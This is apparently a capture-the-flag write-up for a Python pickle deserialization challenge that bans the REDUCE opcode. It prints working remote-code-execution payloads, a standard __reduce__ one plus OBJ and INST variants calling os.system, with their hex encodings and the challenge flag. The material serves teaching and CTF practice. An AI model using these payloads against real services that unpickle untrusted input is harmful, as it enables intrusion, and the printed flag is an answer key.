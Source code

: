 # Irreductible

### Category

Misc

### Description

A Python deserialization challenge ? Easy ! I'll just copy-paste a generic payload and ... oh, *oh no*.
Format : **Hero{flag}**<br>
Author : **yarienkiva**

### Files

- [chall.zip](chall.zip)

### Write up

This write-up is a TL;DR version of a [blogpost I published a while ago](https://heartathack.club/blog/pickle-RCE-without-reduce), feel free to check it out for a more thorough write-up.

Pretty much all the payloads online use the `REDUCE` instruction. An example :

```py
from pickletools import optimize, dis
import pickle
import os

class RCE:
    def __reduce__(self):
        return os.system, ('touch /tmp/pwned',)

dis(optimize(pickle.dumps(RCE())))
"""
    0: \x80 PROTO      4
    2: \x95 FRAME      37
   11: \x8c SHORT_BINUNICODE 'posix'
   18: \x8c SHORT_BINUNICODE 'system'
   26: \x93 STACK_GLOBAL                        # 1. push posix.system
   27: \x8c SHORT_BINUNICODE 'touch /tmp/pwned'
   45: \x85 TUPLE1                              # 2. push ('touch /tmp/pwned',)
   46: R    REDUCE                              # 3. args = stack.pop()
                                                #    func = stack[-1]
                                                #    call func(*args)
   47: .    STOP
highest protocol among opcodes = 4
"""
```

The challenge however requires a payload that *doesn't* contain a `REDUCE` so the only option is to search for other exploit primitives similar to `REDUCE` in the [pickle source code](https://github.com/python/cpython/blob/main/Lib/pickle.py). This search yields an interesting function: `_instantiate`.


```py
def _instantiate(self, klass, args):
    # [...] 
    value = klass(*args)
    # [...]
    self.append(value) # push value onto the stack
```

Two different instructions that use the `_instantiate` function are `OBJ` and `INST`. Both can be used to get code execution :

With `OBJ` :
```py
>>> payload_obj
b'(cos\nsystem\nS"cat flag.txt"\no.'

>>> pickletools.dis(payload_obj)
    0: (    MARK
    1: c        GLOBAL     'os system'
   12: S        STRING     'cat flag.txt'
   28: o        OBJ        (MARK at 0)
   29: .    STOP

# 🥒 : 28636f730a73797374656d0a532263617420666c61672e747874220a6f2e
# Hero{Ins3cur3_d3s3ri4liz4tion_tickl3s_my_pickl3}
```

With `INST` :
```py
>>> payload_inst
b'(S"cat flag.txt"\nios\nsystem\n.'

>>> pickletools.dis(payload_inst)
    0: (    MARK
    1: S        STRING     'cat flag.txt'
   17: i        INST       'os system' (MARK at 0)
   28: .    STOP

# 🥒 : 28532263617420666c61672e747874220a696f730a73797374656d0a2e
# Hero{Ins3cur3_d3s3ri4liz4tion_tickl3s_my_pickl3}
```

### Flag

```Hero{Ins3cur3_d3s3ri4liz4tion_tickl3s_my_pickl3}```
